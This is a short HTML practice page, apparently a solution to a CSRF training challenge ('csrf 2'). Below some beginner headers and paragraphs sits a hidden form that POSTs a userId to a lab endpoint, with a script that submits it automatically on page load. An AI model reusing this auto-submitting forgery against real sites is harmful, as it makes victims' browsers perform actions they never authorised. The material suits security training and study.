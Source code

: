 # mechejess.github.1
 csrf 2
 <HTML>
<HEAD>
<TITLE>Jess's Suite</TITLE>
</HEAD>
<H1>This is a Header</H1>
<H2>This is a Medium Header</H2>
<P> This is a new paragraph!
<P> <B>This is a new paragraph!</B>
<BR> <B><I>This is a new sentence without a paragraph break, in bold italics.</I></B>
<form name="evilForm" action="https://192.168.1.5/user/csrfchallengetwo/plusplus" method="POST">
    <input type="hidden" name="userId" value="637e8d2e65542fe82fe6da3b0356bc0865b0b791" />
    <input type="submit"/>
</form>
<script> document.evilForm.submit(); </script>
</BODY>
</HTML>
